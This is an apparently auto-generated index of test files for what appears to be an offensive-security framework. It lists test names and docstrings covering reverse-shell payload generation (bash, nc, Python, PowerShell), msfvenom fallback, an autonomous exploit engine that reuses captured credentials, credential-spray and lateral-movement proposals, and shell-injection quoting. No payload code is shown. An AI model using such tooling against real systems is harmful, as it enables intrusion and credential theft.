- `TestConfigDeduplication` (line 39) `class TestConfigDeduplication` - *The Config class must be defined exactly once across the framework.

The canonical location is ``core/config.py``; ``utils.py`` re-exports it
for backwards compatibility but must not redefine it.*
- `TestPyProjectToml` (line 98) `class TestPyProjectToml` - *pyproject.toml must parse, list valid deps, and define tooling sections.*
- `TestSetupPy` (line 154) `class TestSetupPy` - *setup.py must be a thin shim delegating to pyproject.toml.

The dependency list lives only in ``pyproject.toml`` ``[project]``; setup.py
must not duplicate it (DRY) and must simply call ``setup()`` so legacy
``python setup.py`` invocations keep working.*
- `TestRequirementsDev` (line 193) `class TestRequirementsDev` - *requirements-dev.txt must list expected tooling.*
- `TestPreCommitConfig` (line 213) `class TestPreCommitConfig` - *.pre-commit-config.yaml must be valid and include core hooks.*
- `TestCIWorkflows` (line 242) `class TestCIWorkflows` - *All GitHub Actions workflows must parse and define expected jobs.*
- `TestGitIgnore` (line 284) `class TestGitIgnore` - *.gitignore must protect sensitive material.*
- `TestRequirementsLock` (line 303) `class TestRequirementsLock` - *Pinned runtime locks must exist, be fully pinned, and stay split so the
cross-platform core never drags in platform-specific CUDA wheels.*
- `TestInstallScript` (line 343) `class TestInstallScript` - *install.sh must be hardened and free of the historical bugs.*
- `TestSourceFilesParse` (line 370) `class TestSourceFilesParse` - *Top-level source files must parse cleanly.*

**Functions:**
- `_read_text` (line 25) `def _read_text(path)`
- `_load_toml` (line 29) `def _load_toml(path)`
- `_load_yaml` (line 34) `def _load_yaml(path)`

**Methods:**
- `test_config_class_defined_exactly_once_in_core` (line 46) `def test_config_class_defined_exactly_once_in_core(self)`
- `test_config_class_not_redefined_in_utils` (line 52) `def test_config_class_not_redefined_in_utils(self)`
- `_run_in_subprocess` (line 59) `def _run_in_subprocess(snippet)` - *Run a snippet in a clean subprocess so utils.py's argv parsing does not interfere.*
- `test_config_attribute_access_works` (line 74) `def test_config_attribute_access_works(self)`
- `test_config_getitem_returns_value` (line 83) `def test_config_getitem_returns_value(self)`
- `test_config_getitem_returns_none_for_missing_key` (line 89) `def test_config_getitem_returns_none_for_missing_key(self)`
- `pyproject` (line 102) `def pyproject(self)`
- `test_parses` (line 105) `def test_parses(self, pyproject)`
- `test_has_no_typo_dependency` (line 108) `def test_has_no_typo_dependency(self, pyproject)`
- `test_does_not_list_stdlib_ast_as_dep` (line 113) `def test_does_not_list_stdlib_ast_as_dep(self, pyproject)`
- `test_lists_flask_wtf_correctly` (line 117) `def test_lists_flask_wtf_correctly(self, pyproject)`
- `test_does_not_list_broken_docx` (line 121) `def test_does_not_list_broken_docx(self, pyproject)`
- `test_has_ml_optional_dependencies` (line 126) `def test_has_ml_optional_dependencies(self, pyproject)`
- `test_has_dev_optional_dependencies` (line 132) `def test_has_dev_optional_dependencies(self, pyproject)`
- `test_has_ruff_section` (line 138) `def test_has_ruff_section(self, pyproject)`
- `test_has_pytest_section` (line 142) `def test_has_pytest_section(self, pyproject)`
- `test_has_mypy_section` (line 146) `def test_has_mypy_section(self, pyproject)`
- `test_has_bandit_section` (line 150) `def test_has_bandit_section(self, pyproject)`
- `setup_tree` (line 163) `def setup_tree(self)`
- `setup_text` (line 167) `def setup_text(self)`
- `test_parses` (line 170) `def test_parses(self, setup_tree)`
- `test_calls_setup` (line 173) `def test_calls_setup(self, setup_tree)`
- `test_does_not_duplicate_dependencies` (line 181) `def test_does_not_duplicate_dependencies(self, setup_text)`
- `test_no_typo_dep` (line 186) `def test_no_typo_dep(self, setup_text)`
- `test_no_stdlib_ast_dep` (line 189) `def test_no_stdlib_ast_dep(self, setup_text)`
- `deps` (line 197) `def deps(self)`
- `test_lists_tool` (line 208) `def test_lists_tool(self, deps, tool)`
- `cfg` (line 217) `def cfg(self)`
- `test_parses` (line 220) `def test_parses(self, cfg)`
- `test_has_ruff_repo` (line 225) `def test_has_ruff_repo(self, cfg)`
- `test_has_detect_secrets_repo` (line 229) `def test_has_detect_secrets_repo(self, cfg)`
- `test_has_core_hygiene_hooks` (line 233) `def test_has_core_hygiene_hooks(self, cfg)`
- `lint_wf` (line 246) `def lint_wf(self)`
- `test_wf` (line 250) `def test_wf(self)`
- `security_wf` (line 254) `def security_wf(self)`
- `test_lint_workflow_has_ruff_and_mypy_jobs` (line 257) `def test_lint_workflow_has_ruff_and_mypy_jobs(self, lint_wf)`
- `test_test_workflow_runs_pytest` (line 262) `def test_test_workflow_runs_pytest(self, test_wf)`
- `test_security_workflow_has_three_jobs` (line 267) `def test_security_workflow_has_three_jobs(self, security_wf)`
- `test_workflow_triggers_on_push_and_pr` (line 276) `def test_workflow_triggers_on_push_and_pr(self, wf_path)`
- `patterns` (line 288) `def patterns(self)`
- `test_pattern_present` (line 299) `def test_pattern_present(self, patterns, pattern)`
- `_entries` (line 308) `def _entries(name)`
- `_names` (line 316) `def _names(entries)`
- `test_core_lock_exists_and_pinned` (line 319) `def test_core_lock_exists_and_pinned(self)`
- `test_core_lock_has_python_docx_not_broken_docx` (line 325) `def test_core_lock_has_python_docx_not_broken_docx(self)`
- `test_core_lock_is_cross_platform` (line 330) `def test_core_lock_is_cross_platform(self)`
- `test_ml_lock_exists_pinned_with_torch` (line 335) `def test_ml_lock_exists_pinned_with_torch(self)`
- `text` (line 347) `def text(self)`
- `test_uses_strict_mode` (line 350) `def test_uses_strict_mode(self, text)`
- `test_does_not_install_stdlib_ast` (line 353) `def test_does_not_install_stdlib_ast(self, text)`
- `test_does_not_install_broken_docx` (line 358) `def test_does_not_install_broken_docx(self, text)`
- `test_installs_from_pinned_lock` (line 363) `def test_installs_from_pinned_lock(self, text)`
- `test_no_absolute_modules_ext_path` (line 366) `def test_no_absolute_modules_ext_path(self, text)`
- `test_parses` (line 374) `def test_parses(self, filename)`

#### `test_palette_overlay.py`
**Path:** `tests/test_palette_overlay.py`
**File Doc:** *Tests for cli/palette_overlay.py.  Exercises the data layer (state, filtering, ranking). The Textual app itself is not instantiated; the runner argument of ``launch_overlay`` is used to verify the wiring without rendering.*

**Functions:**
- `_fake_index` (line 24) `def _fake_index()`
- `test_rows_returns_all_commands_when_query_empty` (line 36) `def test_rows_returns_all_commands_when_query_empty()` - *No query returns every canonical command, sorted deterministically.*
- `test_rows_filter_by_substring` (line 44) `def test_rows_filter_by_substring()` - *Substring match narrows results.*
- `test_rows_rank_recents_above_substrings` (line 52) `def test_rows_rank_recents_above_substrings()` - *Recents float to the top when not contradicted by an exact prefix match.*
- `test_rows_respect_max_rows` (line 65) `def test_rows_respect_max_rows()` - *The truncation limit caps the returned list length.*
- `test_build_state_returns_none_when_index_missing` (line 73) `def test_build_state_returns_none_when_index_missing(monkeypatch)` - *The factory returns ``None`` when the index cannot be loaded.*
- `test_launch_overlay_uses_runner_for_tests` (line 79) `def test_launch_overlay_uses_runner_for_tests()` - *The runner override lets tests bypass Textual entirely.*
- `test_truncate_summary_uses_truncation_suffix` (line 90) `def test_truncate_summary_uses_truncation_suffix()` - *Long summaries get truncated with the configured suffix.*
- `test_set_query_strips_whitespace` (line 106) `def test_set_query_strips_whitespace()` - *Leading/trailing whitespace is removed before scoring.*
- `runner` (line 83) `def runner(context)`

#### `test_payload_factory.py`
**Path:** `tests/test_payload_factory.py`
**File Doc:** *Tests for modules.payload_factory — PayloadFactory, PayloadTemplate, format conversion.  Covers built-in payloads, format conversion, fallback to msfvenom, and the payload table formatter.*

**Classes:**
- `TestPayloadTemplate` (line 21) `class TestPayloadTemplate`
- `TestReverseShellPayload` (line 39) `class TestReverseShellPayload`
- `TestWindowsReverseShellPayload` (line 64) `class TestWindowsReverseShellPayload`
- `TestPayloadFactory` (line 74) `class TestPayloadFactory`
- `TestFormatPayloadTable` (line 168) `class TestFormatPayloadTable`
- `MinimalPayload` (line 30) `class MinimalPayload(PayloadTemplate)`
- `CustomPayload` (line 109) `class CustomPayload(PayloadTemplate)`

**Methods:**
- `test_abstract_cannot_instantiate` (line 22) `def test_abstract_cannot_instantiate(self)` - *PayloadTemplate ABC cannot be instantiated directly.*
- `test_concrete_subclass` (line 27) `def test_concrete_subclass(self)` - *A minimal concrete subclass works.*
- `test_bash_default` (line 40) `def test_bash_default(self)`
- `test_nc_shell` (line 47) `def test_nc_shell(self)`
- `test_python_shell` (line 52) `def test_python_shell(self)`
- `test_unknown_shell_type_falls_back_to_bash` (line 58) `def test_unknown_shell_type_falls_back_to_bash(self)`
- `test_generates_powershell` (line 65) `def test_generates_powershell(self)`
- `test_list_all` (line 75) `def test_list_all(self)`
- `test_list_filter_by_platform` (line 82) `def test_list_filter_by_platform(self)`
- `test_get_existing_payload` (line 89) `def test_get_existing_payload(self)`
- `test_get_nonexistent_returns_none` (line 95) `def test_get_nonexistent_returns_none(self)`
- `test_generate_native_payload` (line 99) `def test_generate_native_payload(self)`
- `test_register_custom` (line 106) `def test_register_custom(self)`
- `test_format_raw` (line 118) `def test_format_raw(self)`
- `test_format_hex` (line 124) `def test_format_hex(self)`
- `test_format_base64` (line 130) `def test_format_base64(self)`
- `test_format_c` (line 138) `def test_format_c(self)`
- `test_format_python` (line 144) `def test_format_python(self)`
- `test_list_formats` (line 150) `def test_list_formats(self)`
- `test_fallback_to_msfvenom_when_not_found` (line 161) `def test_fallback_to_msfvenom_when_not_found(self)` - *Fallback to msfvenom returns empty bytes when msfvenom is not installed.*
- `test_empty_list` (line 169) `def test_empty_list(self)`
- `test_formats_list` (line 173) `def test_formats_list(self)`
- `test_multiple_payloads_aligned` (line 182) `def test_multiple_payloads_aligned(self)`
- `generate` (line 31) `def generate(self)`
- `generate` (line 110) `def generate(self)`

#### `test_payload_schema.py`
**Path:** `tests/test_payload_schema.py`
**File Doc:** *Tests for the ``core.payload_schema`` validation layer.  The schema is the contract that gives ``payload.json`` a typed, documented shape after years of being a free-form dictionary. These tests pin three properties:  - Every key historically present in the shipped ``payload.json`` has a registered :class:`FieldSpec` so the operator gets descriptions for every value in the wizard. - Type validation produces structured :class:`ValidationIssue` instances with the right severity for required vs optional fields. - Coercion never widens behaviour beyond the documented narrow scope (port strings, boolean-like strings).*

**Classes:**
- `TestSchemaShape` (line 41) `class TestSchemaShape`
- `TestValidateValue` (line 72) `class TestValidateValue`
- `TestCoerceValue` (line 133) `class TestCoerceValue`
- `TestValidatePayload` (line 162) `class TestValidatePayload`
- `TestFieldFor` (line 191) `class TestFieldFor`
- `TestFormatIssue` (line 201) `class TestFormatIssue`
- `TestAssignIntegration` (line 235) `class TestAssignIntegration`
- `TestLlmBackendSchema` (line 275) `class TestLlmBackendSchema`

**Methods:**
- `test_schema_is_not_empty` (line 42) `def test_schema_is_not_empty(self)`
- `test_every_spec_has_required_fields` (line 45) `def test_every_spec_has_required_fields(self)`
- `test_required_fields_are_documented` (line 53) `def test_required_fields_are_documented(self)`
- `test_shipped_payload_keys_are_all_in_schema` (line 57) `def test_shipped_payload_keys_are_all_in_schema(self)`
- `test_categories_split_schema` (line 65) `def test_categories_split_schema(self)`
- `test_unknown_key_returns_info` (line 73) `def test_unknown_key_returns_info(self)`
- `test_required_missing_returns_error` (line 78) `def test_required_missing_returns_error(self)`
- `test_optional_missing_returns_none` (line 82) `def test_optional_missing_returns_none(self)`
- `test_valid_ip_passes` (line 86) `def test_valid_ip_passes(self)`
- `test_invalid_ip_returns_error` (line 89) `def test_invalid_ip_returns_error(self)`
- `test_port_string_is_accepted` (line 95) `def test_port_string_is_accepted(self)`
- `test_port_out_of_range_is_warning` (line 98) `def test_port_out_of_range_is_warning(self)`
- `test_negative_port_warns` (line 102) `def test_negative_port_warns(self)`
- `test_os_id_must_be_1_or_2` (line 106) `def test_os_id_must_be_1_or_2(self)`
- `test_url_validates` (line 112) `def test_url_validates(self)`
- `test_hex_validates` (line 117) `def test_hex_validates(self)`
- `test_allowed_values_enforced` (line 121) `def test_allowed_values_enforced(self)`
- `test_hide_code_range` (line 127) `def test_hide_code_range(self)`
- `test_port_string_to_int` (line 134) `def test_port_string_to_int(self)`
- `test_port_int_passthrough` (line 137) `def test_port_int_passthrough(self)`
- `test_port_non_numeric_passthrough` (line 140) `def test_port_non_numeric_passthrough(self)`
- `test_bool_truthy_strings` (line 143) `def test_bool_truthy_strings(self)`
- `test_bool_falsy_strings` (line 147) `def test_bool_falsy_strings(self)`
- `test_bool_passthrough` (line 151) `def test_bool_passthrough(self)`
- `test_unknown_key_passthrough` (line 155) `def test_unknown_key_passthrough(self)`
- `test_ip_string_unchanged` (line 158) `def test_ip_string_unchanged(self)`
- `test_default_payload_passes` (line 163) `def test_default_payload_passes(self)`
- `test_missing_required_field_reports_error` (line 168) `def test_missing_required_field_reports_error(self)`
- `test_unknown_key_in_payload_is_info` (line 175) `def test_unknown_key_in_payload_is_info(self)`
- `test_shipped_payload_has_no_errors` (line 182) `def test_shipped_payload_has_no_errors(self)`
- `test_returns_spec_for_known_key` (line 192) `def test_returns_spec_for_known_key(self)`
- `test_returns_none_for_unknown_key` (line 197) `def test_returns_none_for_unknown_key(self)`
- `test_sensitive_values_redacted` (line 202) `def test_sensitive_values_redacted(self)`
- `test_non_sensitive_values_shown` (line 213) `def test_non_sensitive_values_shown(self)`
- `test_long_values_truncated` (line 223) `def test_long_values_truncated(self)`
- `test_apply_assign_coerces_port_strings` (line 236) `def test_apply_assign_coerces_port_strings(self)`
- `test_apply_assign_surfaces_issue_for_bad_ip` (line 244) `def test_apply_assign_surfaces_issue_for_bad_ip(self)`
- `test_apply_assign_no_issue_for_valid_value` (line 259) `def test_apply_assign_no_issue_for_valid_value(self)`
- `test_apply_assign_keeps_unknown_key_behavior` (line 267) `def test_apply_assign_keeps_unknown_key_behavior(self)`
- `test_llm_backend_enum_validated` (line 276) `def test_llm_backend_enum_validated(self)`
- `test_llm_backend_rejects_unknown` (line 289) `def test_llm_backend_rejects_unknown(self)`
- `test_llm_backend_accepts_supported` (line 292) `def test_llm_backend_accepts_supported(self)`
- `test_model_slots_registered_with_factory_defaults` (line 299) `def test_model_slots_registered_with_factory_defaults(self)`
- `test_provider_key_slots_sensitive` (line 313) `def test_provider_key_slots_sensitive(self)`
- `test_ollama_host_registered` (line 319) `def test_ollama_host_registered(self)`

#### `test_phase1_data_gaps.py`
**Path:** `tests/test_phase1_data_gaps.py`
**File Doc:** *Phase 1 data-gap closure: SDD + TDD + BDD tests.  Covers four critical gaps: 1. service_version findings now populate structured add_service() via metadata 2. domain / email / error findings are consumed instead of dropped 3. GraphTopologySignal feeds pivot_candidates into RecommendationEngine 4. AutonomousExploitEngine retries exploits with newly-captured credentials*

**Classes:**
- `TestFindingMetadata` (line 56) `class TestFindingMetadata`
- `TestServiceVersionExtractor` (line 72) `class TestServiceVersionExtractor`
- `TestEmailExtractor` (line 103) `class TestEmailExtractor`
- `TestObsParserIncludesEmailExtractor` (line 130) `class TestObsParserIncludesEmailExtractor`
- `TestEmailAndDomainEntries` (line 158) `class TestEmailAndDomainEntries`
- `TestWorldModelEmailDomain` (line 174) `class TestWorldModelEmailDomain`
- `TestUpdateFromFindings` (line 198) `class TestUpdateFromFindings`
- `TestConsumePolicyFacts` (line 265) `class TestConsumePolicyFacts`
- `TestWorldModelPersistence` (line 332) `class TestWorldModelPersistence`
- `TestGraphTopologySignal` (line 376) `class TestGraphTopologySignal`
- `TestCredentialAwareRetry` (line 490) `class TestCredentialAwareRetry`
- `TestFullDataFlow` (line 562) `class TestFullDataFlow`

**Functions:**
- `parser` (line 36) `def parser()`
- `world_model` (line 41) `def world_model()`
- `_make_finding` (line 49) `def _make_finding(ftype, value, host, metadata)`

**Methods:**
- `test_finding_has_metadata_default_empty` (line 57) `def test_finding_has_metadata_default_empty(self)`
- `test_finding_accepts_metadata` (line 61) `def test_finding_accepts_metadata(self)`
- `test_port_and_protocol_in_metadata` (line 73) `def test_port_and_protocol_in_metadata(self)`
- `test_multiple_services_extracted` (line 81) `def test_multiple_services_extracted(self)`
- `test_udp_service_captured` (line 91) `def test_udp_service_captured(self)`
- `test_extracts_single_email` (line 104) `def test_extracts_single_email(self)`
- `test_extracts_multiple_emails` (line 111) `def test_extracts_multiple_emails(self)`
- `test_deduplicates_emails` (line 119) `def test_deduplicates_emails(self)`
- `test_ignores_non_email` (line 124) `def test_ignores_non_email(self)`
- `test_parser_extracts_emails_from_output` (line 131) `def test_parser_extracts_emails_from_output(self, parser)`
- `test_parser_still_extracts_service_versions_with_metadata` (line 141) `def test_parser_still_extracts_service_versions_with_metadata(self, parser)`
- `test_email_entry_defaults` (line 159) `def test_email_entry_defaults(self)`
- `test_domain_entry_defaults` (line 165) `def test_domain_entry_defaults(self)`
- `test_add_email_stores_and_deduplicates` (line 175) `def test_add_email_stores_and_deduplicates(self, world_model)`
- `test_add_domain_stores_and_adds_note` (line 181) `def test_add_domain_stores_and_adds_note(self, world_model)`
- `test_add_domain_without_host` (line 189) `def test_add_domain_without_host(self, world_model)`
- `test_service_version_calls_add_service` (line 199) `def test_service_version_calls_add_service(self, world_model)`
- `test_service_version_no_longer_adds_note` (line 213) `def test_service_version_no_longer_adds_note(self, world_model)`
- `test_domain_finding_calls_add_domain` (line 227) `def test_domain_finding_calls_add_domain(self, world_model)`
- `test_email_finding_calls_add_email` (line 235) `def test_email_finding_calls_add_email(self, world_model)`
- `test_error_finding_adds_note` (line 243) `def test_error_finding_adds_note(self, world_model)`
- `test_error_finding_no_host_uses_sentinel` (line 252) `def test_error_finding_no_host_uses_sentinel(self, world_model)`
- `test_consume_empty_file_returns_zero` (line 266) `def test_consume_empty_file_returns_zero(self, world_model, tmp_path)`
- `test_consume_ingests_hosts_and_services` (line 272) `def test_consume_ingests_hosts_and_services(self, world_model, tmp_path)`
- `test_consume_nonexistent_file_returns_zero` (line 318) `def test_consume_nonexistent_file_returns_zero(self, world_model)`
- `test_consume_malformed_json_returns_zero` (line 322) `def test_consume_malformed_json_returns_zero(self, world_model, tmp_path)`
- `test_emails_and_domains_survive_roundtrip` (line 333) `def test_emails_and_domains_survive_roundtrip(self, world_model)`
- `test_reset_clears_emails_and_domains` (line 349) `def test_reset_clears_emails_and_domains(self, world_model)`
- `test_snapshot_includes_emails_and_domains` (line 356) `def test_snapshot_includes_emails_and_domains(self, world_model)`
- `test_to_context_string_has_email_domain_counts` (line 365) `def test_to_context_string_has_email_domain_counts(self, world_model)`
- `test_returns_empty_on_nonexistent_world_model` (line 377) `def test_returns_empty_on_nonexistent_world_model(self)`
- `test_produces_lateral_proposals_from_host_nodes` (line 388) `def test_produces_lateral_proposals_from_host_nodes(self, tmp_path)`
- `test_produces_credential_spray_proposals` (line 425) `def test_produces_credential_spray_proposals(self, tmp_path)`
- `test_computes_centrality_from_graph_when_no_candidates` (line 452) `def test_computes_centrality_from_graph_when_no_candidates(self, tmp_path)`
- `test_signals_are_wired_in_build_default_engine` (line 477) `def test_signals_are_wired_in_build_default_engine(self, tmp_path)`
- `test_retry_with_no_open_ports_returns_empty` (line 491) `def test_retry_with_no_open_ports_returns_empty(self)`
- `test_credential_aware_rank_boosts_brute_force` (line 501) `def test_credential_aware_rank_boosts_brute_force(self)`
- `test_credential_aware_rank_boosts_credential_reuse` (line 526) `def test_credential_aware_rank_boosts_credential_reuse(self)`
- `test_credential_aware_rank_handles_empty_creds` (line 543) `def test_credential_aware_rank_handles_empty_creds(self)`
- `test_recon_to_world_model_to_recommendation` (line 563) `def test_recon_to_world_model_to_recommendation(self, world_model, parser)`

#### `test_phase_labels.py`
**Path:** `tests/test_phase_labels.py`
**File Doc:** *Tests for cli.phase_labels — canonical phase display labels contract.*

**Functions:**
- `test_known_phase_labels` (line 13) `def test_known_phase_labels()`
- `test_phase_label_falls_back_to_title_case` (line 19) `def test_phase_label_falls_back_to_title_case()`
- `test_phase_label_keys_cover_command_index_phases` (line 26) `def test_phase_label_keys_cover_command_index_phases()`
- `test_contextual_help_reuses_canonical_labels` (line 32) `def test_contextual_help_reuses_canonical_labels()`
- `test_tips_engine_reuses_canonical_labels` (line 38) `def test_tips_engine_reuses_canonical_labels()`

#### `test_pipeline_engine.py`
**Path:** `tests/test_pipeline_engine.py`
**File Doc:** *tests/test_pipeline_engine.py  Coverage for Pillar 3 (declarative pipelines):  - TemplateResolver: dotted-path lookup, type-aware stringification, safe failure for missing paths, no code execution - ConditionEvaluator: truthy/falsy semantics for rendered templates - StepValidator: substring, re: prefix, empty/non_empty predicates - StepDerivers: per-command output parsing (ping, lazynmap, searchsploit) - PipelineLoader: schema validation, name traversal protection, file-not-found - PipelineEngine: sequential execution, on_success hook, condition skip, on_failure stop/continue, validate failure, nested pipeline call, cycle detection, depth limit, artifact persistence - mcp_pipeline_* entry points return well-formed JSON - Wiring: do_pipeline exists in lazyown.py, MCP exposes 4 tools, daemon subcommand registered*

**Classes:**
- `_ScriptedRunner` (line 67) `class _ScriptedRunner` - *IStepRunner double driven by an in-memory map of cmd -> output.*
- `TestTemplateResolver` (line 98) `class TestTemplateResolver`
- `TestConditionEvaluator` (line 150) `class TestConditionEvaluator`
- `TestStepValidator` (line 175) `class TestStepValidator`
- `TestStepDerivers` (line 206) `class TestStepDerivers`
- `TestPipelineLoader` (line 254) `class TestPipelineLoader`
- `TestPipelineEngineExecution` (line 383) `class TestPipelineEngineExecution`
- `TestNestedPipelines` (line 577) `class TestNestedPipelines`
- `TestMcpEntryPoints` (line 684) `class TestMcpEntryPoints`
- `TestWiring` (line 738) `class TestWiring`
- `_SilentNarrator` (line 369) `class _SilentNarrator(INarratorAdapter)`

**Functions:**
- `temp_lazyown` (line 36) `def temp_lazyown(tmp_path, monkeypatch)` - *Create a self-contained LazyOwn root with pipelines/ and sessions/.*
- `_write_pipeline` (line 248) `def _write_pipeline(pipelines_dir, name, data)`
- `silent_engine_kwargs` (line 361) `def silent_engine_kwargs(temp_lazyown)` - *Return engine constructor kwargs with a silent narrator + temp dirs.*

**Methods:**
- `__init__` (line 70) `def __init__(self, outputs, successes)`
- `run` (line 79) `def run(self, command, args, target, timeout_s)`
- `_heuristic_success` (line 87) `def _heuristic_success(output)`
- `test_dotted_path_lookup` (line 99) `def test_dotted_path_lookup(self, temp_lazyown)`
- `test_missing_path_renders_empty` (line 106) `def test_missing_path_renders_empty(self, temp_lazyown)`
- `test_bool_serialisation` (line 112) `def test_bool_serialisation(self, temp_lazyown)`
- `test_payload_lookup` (line 118) `def test_payload_lookup(self, temp_lazyown)`
- `test_no_template_passes_through` (line 124) `def test_no_template_passes_through(self, temp_lazyown)`
- `test_no_code_execution` (line 130) `def test_no_code_execution(self, temp_lazyown)`
- `test_list_index_lookup` (line 138) `def test_list_index_lookup(self, temp_lazyown)`
- `test_truthy_table` (line 164) `def test_truthy_table(self, temp_lazyown, value, expected)`
- `test_substring_match` (line 176) `def test_substring_match(self, temp_lazyown)`
- `test_regex_match` (line 182) `def test_regex_match(self, temp_lazyown)`
- `test_empty_and_non_empty` (line 188) `def test_empty_and_non_empty(self, temp_lazyown)`
- `test_no_predicate_is_pass_through` (line 195) `def test_no_predicate_is_pass_through(self, temp_lazyown)`
- `test_ping_derives_ttl_and_alive` (line 207) `def test_ping_derives_ttl_and_alive(self, temp_lazyown)`
- `test_lazynmap_derives_services` (line 214) `def test_lazynmap_derives_services(self, temp_lazyown)`
- `test_searchsploit_has_exploit` (line 223) `def test_searchsploit_has_exploit(self, temp_lazyown)`
- `test_unknown_command_returns_empty` (line 231) `def test_unknown_command_returns_empty(self, temp_lazyown)`
- `test_register_custom_deriver` (line 236) `def test_register_custom_deriver(self, temp_lazyown)`
- `test_load_basic_pipeline` (line 255) `def test_load_basic_pipeline(self, temp_lazyown)`
- `test_missing_pipeline_raises` (line 272) `def test_missing_pipeline_raises(self, temp_lazyown)`
- `test_invalid_name_rejected` (line 278) `def test_invalid_name_rejected(self, temp_lazyown)`
- `test_both_command_and_pipeline_rejected` (line 284) `def test_both_command_and_pipeline_rejected(self, temp_lazyown)`
- `test_neither_command_nor_pipeline_rejected` (line 297) `def test_neither_command_nor_pipeline_rejected(self, temp_lazyown)`
- `test_empty_steps_rejected` (line 310) `def test_empty_steps_rejected(self, temp_lazyown)`
- `test_invalid_on_failure_rejected` (line 324) `def test_invalid_on_failure_rejected(self, temp_lazyown)`
- `test_list_returns_sorted_names` (line 337) `def test_list_returns_sorted_names(self, temp_lazyown)`
- `test_invalid_yaml_raises_schema_error` (line 346) `def test_invalid_yaml_raises_schema_error(self, temp_lazyown)`
- `test_runs_steps_in_order_and_persists_artifacts` (line 384) `def test_runs_steps_in_order_and_persists_artifacts(self, temp_lazyown, silent_engine_kwargs)`
- `test_validate_failure_marks_step_failed` (line 417) `def test_validate_failure_marks_step_failed(self, temp_lazyown, silent_engine_kwargs)`
- `test_condition_false_skips_step` (line 444) `def test_condition_false_skips_step(self, temp_lazyown, silent_engine_kwargs)`
- `test_condition_true_runs_step` (line 473) `def test_condition_true_runs_step(self, temp_lazyown, silent_engine_kwargs)`
- `test_on_success_hook_runs` (line 498) `def test_on_success_hook_runs(self, temp_lazyown, silent_engine_kwargs)`
- `test_on_failure_continue_keeps_going` (line 520) `def test_on_failure_continue_keeps_going(self, temp_lazyown, silent_engine_kwargs)`
- `test_input_from_replaces_args` (line 545) `def test_input_from_replaces_args(self, temp_lazyown, silent_engine_kwargs)`
- `test_nested_pipeline_runs_and_records_run_id` (line 578) `def test_nested_pipeline_runs_and_records_run_id(self, temp_lazyown, silent_engine_kwargs)`
- `test_cycle_is_detected` (line 613) `def test_cycle_is_detected(self, temp_lazyown, silent_engine_kwargs)`
- `test_depth_limit_enforced` (line 639) `def test_depth_limit_enforced(self, temp_lazyown, silent_engine_kwargs)`
- `test_list_returns_json` (line 685) `def test_list_returns_json(self, temp_lazyown)`
- `test_run_rejects_invalid_name` (line 699) `def test_run_rejects_invalid_name(self, temp_lazyown)`
- `test_validate_returns_step_list` (line 705) `def test_validate_returns_step_list(self, temp_lazyown)`
- `test_validate_missing_pipeline_errors` (line 719) `def test_validate_missing_pipeline_errors(self, temp_lazyown)`
- `test_status_returns_ok_with_no_runs` (line 725) `def test_status_returns_ok_with_no_runs(self, temp_lazyown)`
- `test_do_pipeline_exists_in_lazyown` (line 739) `def test_do_pipeline_exists_in_lazyown(self)`
- `test_mcp_exposes_four_pipeline_tools` (line 748) `def test_mcp_exposes_four_pipeline_tools(self)`
- `test_daemon_has_pipeline_subcommand` (line 758) `def test_daemon_has_pipeline_subcommand(self)`
- `test_pipelines_dir_exists_and_has_readme` (line 763) `def test_pipelines_dir_exists_and_has_readme(self)`
- `test_example_pipelines_validate` (line 769) `def test_example_pipelines_validate(self)`
- `__init__` (line 370) `def __init__(self)`
- `narrate` (line 373) `def narrate(self, kind, target, message, payload, severity)`

#### `test_placeholder_coverage.py`
**Path:** `tests/test_placeholder_coverage.py`
**File Doc:** *Placeholder coverage across every registry that resolves ``{tokens}``.  Locks the contract that broke silently in production: a placeholder used by a shipped lazyaddon must resolve at shell runtime, pass the lazyc2 creator validator, be coercible by the payload schema, and be documented in the lazyaddon-creator skill. BDD scenarios: - Given the live payload plus params/*.yaml, when compared with the validator allowlist, no live key is rejected - Given every shipped lazyaddon, when its tool templates are scanned, every token is either declared or globally known - Given every required param without default, when resolved, its key exists in the live params so the command cannot abort - Given the skill documentation, when compared with the validator, no known key is undocumented*

**Functions:**
- `_live_keys` (line 40) `def _live_keys()` - *Union of payload.json and params/*.yaml (the shell self.params).*
- `_skill_keys` (line 49) `def _skill_keys()` - *Known-keys list from the lazyaddon-creator skill Step 4.*
- `test_validator_covers_live_keys` (line 57) `def test_validator_covers_live_keys()` - *Validator allowlist must accept every key the shell can substitute.*
- `test_schema_covers_live_keys` (line 63) `def test_schema_covers_live_keys()` - *Payload schema must coerce every key the shell can substitute.*
- `test_skill_documents_validator_keys` (line 68) `def test_skill_documents_validator_keys()` - *Skill doc must document every key the validator accepts.*
- `test_addon_tokens_resolve` (line 74) `def test_addon_tokens_resolve()` - *Every tool token is declared in params or globally known.*
- `test_addon_tokens_resolve_at_runtime` (line 94) `def test_addon_tokens_resolve_at_runtime()` - *Every token in an enabled addon exists in live shell params.

YAML ``default:`` values never reach the shell: the wrapper substitutes
exclusively from ``self.params`` (payload.json plus params/*.yaml), so a
token missing there renders literally into the executed command.*
- `test_required_params_exist_live` (line 118) `def test_required_params_exist_live()` - *Required params without default must exist in live shell params.*

#### `test_plugin_loader_safety.py`
**Path:** `tests/test_plugin_loader_safety.py`
**File Doc:** *Marketplace placeholder substitution must be shell-safe.  SDD contract: ``poc_tui.plugin_loader._replace_placeholders`` injects payload values into commands executed with ``shell=True``. Values arrive from scan data and operator config, so every substituted value is wrapped in ``shlex.quote`` (the same remediation already applied in ``modules/conditional_hooks.py``). Multi-word values become a single quoted shell word; per-run flags travel as free args, which are appended verbatim and never substituted.*

**Classes:**
- `TestPlaceholderQuoting` (line 38) `class TestPlaceholderQuoting`

**Functions:**
- `_load_fn` (line 23) `def _load_fn()`

**Methods:**
- `test_plain_values_pass_through` (line 39) `def test_plain_values_pass_through(self)`
- `test_injection_neutralized` (line 43) `def test_injection_neutralized(self)`
- `test_command_substitution_neutralized` (line 48) `def test_command_substitution_neutralized(self)`
- `test_missing_key_left_verbatim` (line 53) `def test_missing_key_left_verbatim(self)`
- `test_uses_shlex_quote` (line 57) `def test_uses_shlex_quote(self)`

#### `test_plugin_tiers.py`
**Path:** `tests/test_plugin_tiers.py`
**File Doc:** *Tests for marketplace plugin tiers and operator ratings.*

**Functions:**
- `test_tier_constants` (line 25) `def test_tier_constants()`
- `test_manifest_overrides_metadata` (line 29) `def test_manifest_overrides_metadata()`
- `test_metadata_tier_used_without_manifest` (line 33) `def test_metadata_tier_used_without_manifest()`
- `test_default_tier_is_community` (line 37) `def test_default_tier_is_community()`
